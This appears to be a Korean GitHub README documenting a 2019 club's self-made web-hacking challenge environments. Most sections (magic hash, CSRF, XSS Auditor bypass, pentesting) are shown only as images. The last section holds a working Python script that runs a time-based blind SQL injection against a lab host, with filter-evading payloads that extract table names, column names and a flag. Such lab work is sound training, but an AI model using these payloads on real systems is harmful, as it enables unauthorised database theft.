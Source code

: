 # 2019-self-web-hacking-challenge-document
**2019년 동아리에서 공부했던 해킹대회 문제환경 제작 기록**

---

# 1. Magic Hash PHP Trick
![image](https://user-images.githubusercontent.com/48134435/172830128-4bed9da5-9f81-48a3-97bc-3614e8c54d5f.png)
![image](https://user-images.githubusercontent.com/48134435/172830163-f2787ebd-f436-4e88-b7df-9bf15d6b8005.png)
![image](https://user-images.githubusercontent.com/48134435/172830174-60b7b881-98cb-4429-9fe1-ad39f40c4e96.png)
![image](https://user-images.githubusercontent.com/48134435/172830183-136750e1-6f8c-4efe-bf3d-dd0493ecd614.png)
![image](https://user-images.githubusercontent.com/48134435/172830197-4cd11050-d6e6-4165-996e-5dd2cc255d20.png)


# 2. Pentesting
![image](https://user-images.githubusercontent.com/48134435/172830286-a30c69c0-d79b-471c-ba9f-08c95a3b0c9e.png)
![image](https://user-images.githubusercontent.com/48134435/172830297-0c5a29c4-7d06-4cc2-b05f-aa307fed36c1.png)
![image](https://user-images.githubusercontent.com/48134435/172830472-18fca4c0-ef92-478f-bbe7-d5b6c266e112.png)
![image](https://user-images.githubusercontent.com/48134435/172830520-799887a2-4fe1-49a0-8a54-cd882288fc01.png)
![image](https://user-images.githubusercontent.com/48134435/172830538-fd626695-3a71-4b73-908c-7025969bb6a2.png)
![image](https://user-images.githubusercontent.com/48134435/172830549-b6249a6d-af06-47c5-9b73-be900a102bfb.png)


# 3. Django CSRF
![image](https://user-images.githubusercontent.com/48134435/172830722-425b8da8-d5c6-4d94-b394-429eeb4be3bc.png)
![image](https://user-images.githubusercontent.com/48134435/172830752-433b0919-ba73-459c-8abc-8d05359ccdbe.png)
![image](https://user-images.githubusercontent.com/48134435/172830761-5c799e20-4eb1-42f5-b70b-5bb94914aaef.png)
![image](https://user-images.githubusercontent.com/48134435/172830788-7cb0c7ae-f943-4ea9-ade9-b25c4b1be860.png)
![image](https://user-images.githubusercontent.com/48134435/172830797-fd8098da-68ad-49ee-938b-07b94f950a80.png)
![image](https://user-images.githubusercontent.com/48134435/172830813-48f2ef32-5c75-4669-b95a-75670bdf0daf.png)
![image](https://user-images.githubusercontent.com/48134435/172830841-d763e0a9-57b2-4fdc-92c6-222afa03a870.png)
![image](https://user-images.githubusercontent.com/48134435/172830861-e0ddc0e3-bf4b-4b24-b20c-147a7f5222bc.png)


# 4. XSS Auditor bypass
![image](https://user-images.githubusercontent.com/48134435/172830906-82857b73-5814-4e7d-b4ae-0c2106a961a2.png)
![image](https://user-images.githubusercontent.com/48134435/172830925-eb8faef9-48d8-4ac8-a5d9-dde4bc2d6b80.png)
![image](https://user-images.githubusercontent.com/48134435/172830937-ae8c469f-a9e4-493b-b527-ed6963984f5c.png)
![image](https://user-images.githubusercontent.com/48134435/172830943-4f7ba4c8-3702-4c34-a2dc-6803a837ee48.png)
![image](https://user-images.githubusercontent.com/48134435/172830955-f99a590f-e772-4469-b9aa-1219cd7d51e7.png)
![image](https://user-images.githubusercontent.com/48134435/172831063-da176e72-e654-477d-b3c0-8a4ce7175cdf.png)
![image](https://user-images.githubusercontent.com/48134435/172831109-7b0d4989-566d-4e19-8768-ec9f2deb6416.png)
![image](https://user-images.githubusercontent.com/48134435/172831151-ccbb04b2-648d-4caa-b127-c46603da6bfb.png)
![image](https://user-images.githubusercontent.com/48134435/172831254-aa0fe1e1-7ade-41e0-b807-6a011312c541.png)


# 5. Time-Based Blind SQL injection
![image](https://user-images.githubusercontent.com/48134435/172831499-af3b2c80-c115-452a-935c-d520f632be45.png)
![image](https://user-images.githubusercontent.com/48134435/172831521-f2ad2827-d0dd-4135-9111-c1a433c75714.png)
![image](https://user-images.githubusercontent.com/48134435/172831561-56eda639-92a7-418b-9fab-8ddaced391b8.png)
![image](https://user-images.githubusercontent.com/48134435/172831579-27030614-bd6c-43c5-bafd-0a29ce5bd4ce.png)
![image](https://user-images.githubusercontent.com/48134435/172831587-60b9081f-e343-4bf8-af8a-db0defabda95.png)
![image](https://user-images.githubusercontent.com/48134435/172831606-0925ce9c-ac13-42d8-980b-0e28385abde6.png)
![image](https://user-images.githubusercontent.com/48134435/172831620-5718c18a-3bce-4fc8-b7b2-d792feab4d24.png)
```
import requests
import time
 
url = "http://192.168.200.201/index.php?p=search_Lion"
 
print ("[+] Start")
print ("[+] Find Table Name")
 
found = ""
for j in range(1, 10):
    for i in range(48, 128):
        try:
            t1=time.time()
            data = "'union/**/select/**/substr(column_name,1,10)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/&&/**/if(substr(table_name,"+str(j)+",1)='"+chr(i)+"',sleep(4),1)/**/&&/**/1^'"
            r = requests.post(url, data={'query': data})
            t2=time.time()
        except:
            print ("[-] Error occur")
            continue
 
        if t2-t1>1:
            found += chr(i)
            print ("[+] Found " + str(j), ":", found)
            break
 
print ("[+] Found Table : ", found)
print ("[+] End\n\n")
 
 
 
print ("[+] Start")
print ("[+] Find col Name")
 
found = ""
 
for j in range(1, 10):
    for i in range(48, 128):
        try:
            t1=time.time()
            data = "'union/**/select/**/substr(column_name,1,10)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/&&/**/if(substr(column_name,"+str(j)+",1)='"+chr(i)+"',sleep(4),1)/**/&&/**/1^'"
            r = requests.post(url, data={'query': data})
            t2=time.time()
        except:
            print ("[-] Error occur")
            continue
 
        if t2-t1>1:
            found += chr(i)
            print ("[+] Found " + str(j), ":", found)
            break
 
print ("[+] Found Column : ", found)
print ("[+] End\n\n")
 
 
print ("[+] Start")
print ("[+] Find Flag")
 
found = ""
 
for j in range(1, 13):
    for i in range(48, 128):
        try:
            t1=time.time()
            """'|| n4me NOT IN ("AC3_BeD","bR0$MAN","CO@LpIs","DrA9&PROD","EyEligntening","Family_L!on") && if(substr(n4me,1,1)=binary("P"),sleep(1),1) && 1^'"""
            data = """'||/**/n4me/**/NOT/**/IN/**/("AC3_BeD","bR0$MAN","CO@LpIs","DrA9&PROD","EyEligntening","Family_L!on")/**/&&/**/if(substr(n4me,"""+str(j)+""",1)=binary('"""+chr(i)+"""'),sleep(3),1)/**/&&/**/1^'"""
            r = requests.post(url, data={'query': data})
            t2=time.time()
        except:
            print ("[-] Error occur")
            continue
 
        if t2-t1>1:
            found += chr(i)
            print ("[+] Found " + str(j), ":", found)
            break
 
print ("[+] Found Flag : ", found)
print ("[+] End")

```

![image](https://user-images.githubusercontent.com/48134435/172831640-27af619c-1c0c-4013-bd25-ed4b71e01d6d.png)
